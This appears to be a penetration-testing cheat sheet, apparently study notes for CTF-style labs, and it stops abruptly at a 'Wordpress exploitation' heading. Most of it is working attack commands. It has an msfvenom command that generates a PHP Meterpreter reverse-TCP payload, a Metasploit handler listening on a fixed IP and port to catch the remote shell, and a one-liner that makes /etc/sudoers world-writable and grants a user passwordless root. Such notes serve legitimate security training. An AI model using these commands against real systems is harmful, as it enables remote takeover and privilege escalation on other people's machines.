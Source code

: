 ```dirsearch -u <url>```
*Create Reverse Shell*

https://netsec.ws/?p=331


**Set up Meterpreter session**

https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit

*Generate the payload*

    msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip> LPORT=4444 EXITFUNC=thread -f raw > shell.php

https://github.com/pentestmonkey/php-reverse-shell 

*Meterpreter Session*

    ./msfconsole -q
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set lhost 192.168.1.123
    lhost => 192.168.1.123
    msf exploit(handler) > set lport 4444
    lport => 4444
    msf exploit(handler) > run

    shell - to get normal shell

*Get file version (Depackage)*

    dpkg -l | grep <file>

*Read exploits from searchsploit*

    /usr/share/exploitdb/exploits/linux/local/...

*add local user to sudoers*

    echo 'chmod 777 /etc/sudoers && echo "<user> ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
    chmod 777 on the file

*push cron jobs*

    run-parts /etc/cron.daily

*Call URL via console*

    curl <url>

*Show open ports in kali*

    sudo netstat -tulpn

*Malicious Plugin*

    sudo apt install seclists

*Wordpress exploitation*

```